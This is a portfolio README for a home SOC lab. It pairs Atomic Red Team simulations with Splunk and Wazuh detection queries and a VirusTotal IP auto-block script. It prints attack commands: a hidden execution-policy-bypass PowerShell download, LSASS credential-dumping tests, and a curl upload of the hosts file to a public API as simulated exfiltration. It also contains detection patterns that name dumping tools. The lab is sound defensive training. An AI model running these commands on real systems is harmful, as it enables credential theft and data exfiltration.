# 🛡️ Home SOC & Threat Detection Lab

**An end-to-end, hands-on Security Operations Center (SOC) lab built at home — deploying a SIEM, hardening an endpoint, ingesting telemetry, and engineering detections mapped to the MITRE ATT&CK framework.**

> Built by Przemyslaw Wierzbicki — aspiring SOC Analyst

---

## 📋 Project Overview
| | |
|---|---|
| **SIEM Platform** | Splunk Enterprise (Ubuntu Server) |
| **Second SIEM / EDR Platform** | Wazuh (all-in-one: manager + indexer + dashboard) |
| **Endpoint Monitored** | Windows 10 |
| **Log Transport** | Splunk Universal Forwarder + Wazuh Agent |
| **Endpoint Telemetry** | Sysmon 15.x |
| **Framework** | MITRE ATT&CK |
| **Automation** | Python 3 + VirusTotal API + Windows Firewall|
| **Virtualization** | Oracle VirtualBox (isolated host-only network) |
| **Status** | ✅ Finished — see [Roadmap](#roadmap) |


---

## 📐 Architecture & Topology


 
- **Adapter 1:** NAT — internet access for updates/tooling
- **Adapter 2:** Host-Only network — isolated lab communication
> The same Windows 10 endpoint feeds **both** SIEMs

---

## 📁 Repository Structure
```
soc-detection-lab/
├── README.md
├── docs/
│   └── assets/     # screenshots & MITRE Navigator heatmap (evidence)
├── incident-reports/
│   └── IR-001-multi-stage-attack-chain.md
├── rules/          # SPL detection rules / Sigma rules / ATT&CK layer JSON
├── samples/        # sample logs, sample malicious command lines
├── scripts/        # setup / config scripts (inputs.conf, sysmonconfig.xml, etc.)
└── wazuh/
    ├── local_rules.xml   # custom Wazuh rules (MITRE-mapped)
    └── screenshots/      # Wazuh evidence (deployment, agent status, alerts, rules)
```

---

## 🚀 Implementation Progress

- ✅ **Phase 1 — SIEM Deployment**
  Deployed Splunk Enterprise on Ubuntu, management UI on port 8000, receiver enabled on port 9997.

- ✅ **Phase 2 — Endpoint Hardening & Monitoring**
  Deployed Sysmon 15.x on the Windows 10 target with a modular config; verified events in `Microsoft-Windows-Sysmon/Operational`.

- ✅ **Phase 3 — Telemetry Ingestion**
  Deployed Splunk Universal Forwarder, configured `inputs.conf` to forward Application/Security/System/Sysmon logs. Validated pipeline end-to-end in Splunk (`index=main`).

- ✅ **Phase 4 — Threat Simulation**
  5 MITRE ATT&CK techniques simulated, forming a full attack chain (Execution → Credential Access → Persistence → Collection → Exfiltration).

- ✅ **Phase 5 — Detection Engineering**
  5 custom SPL alerts + 1 multi-stage correlation search + MITRE ATT&CK Navigator heatmap.

- ✅ **Phase 6 — Dashboards & Screenshots**
  Real evidence captured for every detection: live Splunk searches, alert configuration, and correlation search results — see inline screenshots below.

- ✅ **Phase 7 — Incident Reports**
  Full incident report written for the multi-stage attack chain, modeled on real SOC analyst documentation standards — see [`incident-reports/IR-001-multi-stage-attack-chain.md`](incident_reports/IR-001-multi-stage-attack-chain.md).

- ✅ **Phase 8 — Automated Response (SOAR-lite)**
  Python script that enriches source IPs from Splunk-exported alerts with VirusTotal reputation data and automatically blocks malicious IPs (more than 3 engine detections) via Windows Firewall, then notifies a webhook — see [Automated Response](#automated-response).

- ✅ **Phase 9 — Wazuh Extension (SIEM/EDR)**
  Deployed a Wazuh server and an agent on the Windows 10 endpoint, ingested Sysmon telemetry, validated what Wazuh detects out of the box and wrote custom MITRE-mapped rules where it did not — see [Wazuh Extension](#wazuh).
---

## ⚔️ Threat Simulation

**Technique simulated:** T1059.001 — Command and Scripting Interpreter: PowerShell

Executed an obfuscated PowerShell command that bypasses execution policy, hides the window, and downloads a file into a temp directory:

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE' -OutFile '$env:TEMP\suspicious_script.ps1'"
```

---

**Technique simulated:** T1003.001 — OS Credential Dumping: LSASS Memory

Used Atomic Red Team to execute a credential-dumping test against the LSASS process, simulating techniques attackers use to extract cached credentials from memory:

```powershell
Invoke-AtomicTest T1003.001 -GetPrereqs
Invoke-AtomicTest T1003.001
```

---

**Technique simulated:** T1136.001 — Create Account: Local Account

Used Atomic Red Team to simulate an attacker creating a new local account for persistence:

```powershell
Invoke-AtomicTest T1136.001 -GetPrereqs
Invoke-AtomicTest T1136.001
```

---

**Technique simulated:** T1560.001 — Archive Collected Data: Archive via Utility

Used Atomic Red Team to simulate an attacker staging and compressing collected data using common archive utilities (7-Zip, WinRAR, WinZip, makecab) before exfiltration:

```powershell
Invoke-AtomicTest T1560.001 -GetPrereqs
Invoke-AtomicTest T1560.001
```

---

**Technique simulated:** T1567 — Exfiltration Over Web Service

Simulated an attacker exfiltrating a sensitive local file (`hosts`) by uploading it directly to a public third-party web API rather than to attacker-controlled infrastructure — a technique real attackers use to blend exfiltration traffic in with legitimate HTTPS/API traffic:

```powershell
curl.exe -F "file=@C:\Windows\System32\drivers\etc\hosts" https://reqres.in/api/users
```

This closes out the attack chain simulated so far: **Execution → Credential Access → Persistence → Collection → Exfiltration.**

---

## 🔍 Detection Engineering

**Threat hunting query — PowerShell execution (SPL):**

```spl
index=main EventCode=1 Image="*powershell.exe" (CommandLine="*-ExecutionPolicy Bypass*" OR CommandLine="*-WindowStyle Hidden*")
| table _time ComputerName User Image CommandLine ParentCommandLine
```


*Live Splunk search confirming the obfuscated PowerShell invocation was captured.*

**Alert configuration — Suspicious Obfuscated PowerShell Execution (T1059.001):**


*Real-time alert, triggers when Number of Results > 0 within 1 minute.*

---

**Threat hunting query — LSASS credential dumping (SPL):**

```spl
index=main source="*Sysmon*" (CommandLine="*lsass*" OR CommandLine="*xordump*" OR CommandLine="*rdrleakdiag*")
| table _time host EventCode SourceImage TargetImage CommandLine
```

**Detection rule — LSASS access via Sysmon process creation / access events (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" lsass (EventCode=1 OR EventCode=10)
| table _time, host, EventCode, SourceImage, TargetImage, CommandLine
| sort _time
```


*8 events captured, including the `xordump` and `rdrleakdiag` evasion tools accessing `lsass.exe`.*

---

**Threat hunting query — local account creation (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "net user"
| table _time, CommandLine, Image
```

**Detection rule — local account / group manipulation via Sysmon (SPL):**

```spl
index=main source="*Sysmon*" EventCode=1 (CommandLine="*net user*" OR CommandLine="*localgroup*")
| table _time host EventCode Image CommandLine User
```


*Both the `net user /add` account creation and the follow-up `net localgroup administrators ... /add` privilege escalation captured.*

---

**Threat hunting query — archive utility usage for data staging (SPL):**

```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 (CommandLine="*zip*" OR CommandLine="*7z*" OR CommandLine="*rar*" OR CommandLine="*makecab*")
| table _time, Image, CommandLine
```


*13 events captured across multiple archive utilities (7-Zip, WinRAR, WinZip, makecab) used to stage data for exfiltration.*

---

**Threat hunting query — exfiltration via web upload (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" (EventCode=1 OR EventCode=3) (Image="*curl.exe" OR Image="*powershell.exe")
| table _time, host, EventCode, Image, CommandLine, DestinationIp, DestinationPort
```


*`curl.exe` uploading `hosts` to `reqres.in/api/users`, captured alongside the outbound network connection event (EventCode 3).*

---

| Rule | Technique | Trigger | Severity | Action |
|---|---|---|---|---|
| Suspicious Obfuscated PowerShell Execution | T1059.001 | `Number of Results > 0` | High | Dashboard notification + event tagging |
| Suspicious LSASS Memory Access | T1003.001 | `Number of Results > 0` | Critical | Dashboard notification + event tagging |
| Suspicious Local Account / Group Manipulation | T1136.001 | `Number of Results > 0` | High | Dashboard notification + event tagging |
| Suspicious Archive Utility Usage (Data Staging) | T1560.001 | `Number of Results > 0` | Medium | Dashboard notification + event tagging |
| Suspicious Outbound File Upload (Exfiltration) | T1567 | `Number of Results > 0` | High | Dashboard notification + event tagging |

---

## 🔗 Multi-Stage Attack Correlation

Instead of relying on five isolated alerts, this correlation search ties the individual techniques together into a single detection: it tags every matching event with the attack stage it represents, then groups by host and user to flag any host that has shown **3 or more distinct stages of the attack chain** within the search window — a much stronger signal of an active, in-progress intrusion than any single alert firing on its own.

**Correlation search — multi-stage attack chain detection (SPL):**

```spl
index=main source="*Sysmon*" 
| eval attack_stage=case(
match(CommandLine, "(?i)-ExecutionPolicy Bypass|-WindowStyle Hidden"), "1. Execution(T1059.001)",
(match(CommandLine, "(?i)xordump|rdrleakdiag") OR (match(TargetImage,"(?i)lsass") AND EventCode=10)),
"2. Credential Access (T1003.001)",
match(CommandLine,"(?i)net user|localgroup"),"3. Persistence (T1136.001)",
match(CommandLine,"(?i)zip|7z|rar|makecab"),"4. Collection(T1560.001)",
match(Image, "(?i)curl\.exe|powershell\.exe") AND match(CommandLine, "(?i)reqres|http"), "5. Exfiltration(T1567)"
)
| where isnotnull(attack_stage)
| stats 
    dc(attack_stage) as stages_count,
    values(attack_stage) as stages_detected,
    min(_time) as first_seen,
    max(_time) as last_seen,
    values(CommandLine) as executed_commands
    by host, User
| where stages_count>=3
| eval attack_duration_sec=last_seen-first_seen
| convert ctime(first_seen) ctime(last_seen)
| table host,User, stages_count, stages_detected, attack_duration_sec, first_seen, last_seen, executed_commands
```


*The correlation search tagging each event with its corresponding attack-chain stage.*


*Result: `Windows10-Victim` flagged with all 5 attack stages detected end-to-end — Execution, Credential Access, Persistence, Collection, and Exfiltration — proving the full kill chain was captured and correlated in a single query.*

| Rule | Technique(s) Covered | Trigger | Severity | Action |
|---|---|---|---|---|
| Multi-Stage Attack Chain Detected | T1059.001, T1003.001, T1136.001, T1560.001, T1567 | `stages_count >= 3` for the same host/user | Critical | Immediate dashboard notification + incident escalation |

> 📄 **Full write-up:** This correlated detection was escalated and documented end-to-end in [`incident-reports/IR-001-multi-stage-attack-chain.md`](incident-reports/IR-001-multi-stage-attack-chain.md) — including timeline, evidence, root cause, containment steps, and lessons learned.


---

## 🗺️ MITRE ATT&CK Navigator Heatmap

Visual heatmap of all techniques simulated and detected in this lab, generated with the [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)


> 🔗 **Interactive Layer:** You can inspect the full JSON layer file in [`rules/att&ck_layer.json`](rules/att&ck_layer.json).

---

## <a id="automated-response"></a>🤖 Automated Response — VirusTotal IP Enrichment & Auto-Block
 
Detection is only half of the job, so this step closes the loop: a Python script takes the source IPs from a Splunk alert, checks their reputation on VirusTotal and, if an IP is flagged malicious, blocks it on the endpoint with Windows Firewall and notifies the SOC through a webhook. This is a small **SOAR-style** (Security Orchestration, Automation and Response) building block.
 

 
 
### 🐍 Source code
 
| File | Description |
|---|---|
| [`scripts/vt_auto_block.py`](scripts/vt_auto_block.py) | VirusTotal enrichment + automatic Windows Firewall blocking + webhook notification |

```python
import json
import sys
import os
import requests
import subprocess

def check_vt_ip(ip_address,api_key):
    url=f"https://www.virustotal.com/api/v3/ip_addresses/{ip_address}"

    headers={
        "x-apikey":api_key
    }
    try:
        response=requests.get(url,headers=headers, timeout=5)
        if response.status_code==200:
            data=response.json()
            malicious_count=data["data"]["attributes"]["last_analysis_stats"]["malicious"]
            return malicious_count
        else:
            print(f"[ERROR] API responded with a status code: {response.status_code}")
            return None
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Connection error with VirusTotal {e}")
        return None


def block_ip(ip_address,malicious_count):
    if  malicious_count is not None and malicious_count > 3:
        print(f"[DANGER] IP {ip_address} identified as malicious ({malicious_count} detections). Initiating block ...")
        rule_name = f"SOC_Block_Malicious_IP_{ip_address}"
        command = [
            "netsh", "advfirewall", "firewall", "add", "rule",
            f"name={rule_name}", "dir=in", "action=block", f"remoteip={ip_address}"
        ]
        result=subprocess.run(command, capture_output=True,text=True )
        if result.returncode==0:
            print(f"[SUCCESS] The address {ip_address} has been blocked in the firewall!")
        else:
            print(f"[ERROR] Failed to block IP. Error: {result.stderr}")
    else:
        print(f"[CLEAN] IP {ip_address} is safe, {malicious_count} detections")


def send_to_webhook_malicious_ip(event,url):
    ip_addr = event.get("src_ip", "Unknown")
    try:
        requests.post(url,json=event,timeout=5)
        print(f"[INFO] Information about the blocking of IP address {ip_addr} has been sent to the webhook")
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Failed to send data to the webhook: {e}")


def extracting_ip_addresses_and_block(input_file,webhook):
    try:
        with open(input_file,"r",encoding="utf-8") as f:
            events=json.load(f)
    except Exception as e:
        print(f"[ERROR] Couldn't open JSON file: {e}")
        sys.exit(1)
    api_key = os.environ.get("VT_API_KEY")
    if not api_key:
        print("[ERROR] API key missing. Set the VT_API_KEY environment variable before running the script.")
        sys.exit(1)
    for event in events:
        ip_addr = event.get("src_ip","Unknown")
        if not ip_addr.startswith(("10.","192.168.","172.16.")):
            malicious_count=check_vt_ip(ip_addr,api_key)
            block_ip(ip_addr,malicious_count)
            if malicious_count is not None and malicious_count>3:
                send_to_webhook_malicious_ip(event,webhook)
        else:
            print(f"Skipping VT check for private IP: {ip_addr}")

if len(sys.argv)<3:
    print("Usage: python vt_auto_block.py <path_to_json_file> <webhook_url>")
    sys.exit(1)

extracting_ip_addresses_and_block(sys.argv[1], sys.argv[2])


```
### 📸 Result
 

*Script output: public IPs checked against VirusTotal, the malicious one flagged, firewall rules created, webhook notified.*

 
### ▶️ How to run it
 
**Requirements:** Windows 10 (terminal opened **as Administrator**), Python 3, `pip install requests json sys os subprocess`, a free VirusTotal API key stored in the `VT_API_KEY` environment variable.
 
```powershell
pip install requests
$env:VT_API_KEY="<key>"
 
# Run
python scripts\vt_auto_block.py samples\test_events.json <webhook_url>
```
 
**Input file** is a list of events with a `src_ip` field. It can be produced from Splunk by exporting the results of this search as JSON:
 
```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| rename DestinationIp as src_ip
| table _time host Image src_ip DestinationPort
```
 
### 🧠 Design notes
 
- **Private IPs are skipped.** Basic filtering prevents checking private IPv4 ranges (10.x.x.x, 192.168.x.x, 172.16.x.x) to save VirusTotal API quota.
- **Configurable threshold.** More than 3 malicious verdicts triggers a block.
- **Inbound Firewall enforcement.** Creates inbound block rules (`dir=in`) via `netsh` for malicious remote IPs.
- **No secrets in code.** The API key is read from an environment variable.
- **Auditable rules.** Rules are named `SOC_Block_Malicious_IP_<ip_address>` for easy review and cleanup; existing rules are not duplicated.

<br>

---

## <a id="wazuh"></a>🦅 Wazuh Extension — Second SIEM/EDR on the Same Endpoint
 
After building the Splunk pipeline, the lab was extended with **Wazuh**, an open-source SIEM/XDR platform with its own endpoint agent. This section shows **how Wazuh was deployed, how the agent was connected to the Windows 10 endpoint, and what Wazuh found** — both out of the box and after custom rule engineering.
 
The goal here is **not** to replay the whole attack chain a second time. Two techniques from the Splunk lab were deliberately chosen because they show two different outcomes:
 
| Technique | Outcome on Wazuh |
|---|---|
| **T1059.001** — PowerShell | ✅ Detected **out of the box** (built-in rule 92029) |
| **T1003.001** — LSASS Memory | ❌ No built-in alert → ✅ detected after writing **custom rules** (100500, 100501) |
 

<br>

### 🏗️ Part 1 — Wazuh Server Deployment
 
| Component | Details |
|---|---|
| **Wazuh server VM** | `Wazuh-SIEM` — cloned from an existing Ubuntu VM (new MAC addresses), disk extended to 50 GB, 6 GB RAM, 2 vCPU |
| **Network** | Adapter 1: NAT (packages), Adapter 2: Host-Only, static IP `192.168.56.103` (set via `nmcli`) |
| **Installation** | Wazuh all-in-one install script (`wazuh-install.sh -a`): manager + indexer + dashboard on one host |
| **Dashboard** | `https://192.168.56.103` (port 443) |
 
<br>


*Lab VMs in VirtualBox, including the new `Wazuh-SIEM` machine next to Splunk and the Windows 10 target.*

<br>
 

*Wazuh dashboard after the first successful login.*
 
### 🐺 Part 2 — Agent on Windows 10
 
The Wazuh agent was deployed on `Windows10-Victim` (agent ID `001`, IP `192.168.56.102`) using the command generated by **Deploy new agent** in the dashboard, with the manager address set to `192.168.56.103`.
 

*✅ **Agent `Windows10-Victim` shows status Active** in the Wazuh dashboard — the endpoint is connected and reporting.*
 
<br> 


*The Wazuh agent service running on the Windows 10 machine.*
 
### 📥 Part 3 — Sysmon Telemetry into Wazuh
 
The agent was configured to read the Sysmon channel by adding this block to `C:\Program Files (x86)\ossec-agent\ossec.conf`:
 
```xml
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```
 
After restarting the service (`Restart-Service -Name wazuh`), Sysmon events started appearing in **Threat Hunting → Events**.
 

*Sysmon events (`Microsoft-Windows-Sysmon/Operational`) arriving in Wazuh from `Windows10-Victim`.*
 
### 🔎 Part 4 — Finding #1: PowerShell (T1059.001) Detected Out of the Box
 
The exact command from the [Threat Simulation](#️-threat-simulation) section was executed on the endpoint. Wazuh raised an alert **without any custom rule**:
 
| Field | Value |
|---|---|
| `rule.id` | **92029** |
| `rule.level` | 6 |
| `rule.description` | Powershell executed script from suspicious location |
| `rule.mitre.id` | T1059.001 |
| `rule.mitre.technique` | PowerShell |
| `rule.mitre.tactic` | Execution |
| `rule.groups` | `sysmon`, `sysmon_eid1_detections`, `windows` |
| `decoder.name` | `windows_eventchannel` |
 
<br>


*Filter `data.win.eventdata.commandLine: *ExecutionPolicy*` isolates exactly one hit — rule 92029 at the time of the attack.*
 
<br> 


*Document details: full command line with `-ExecutionPolicy Bypass -WindowStyle Hidden` and `suspicious_script.ps1`, agent `Windows10-Victim` (192.168.56.102).*

<br>

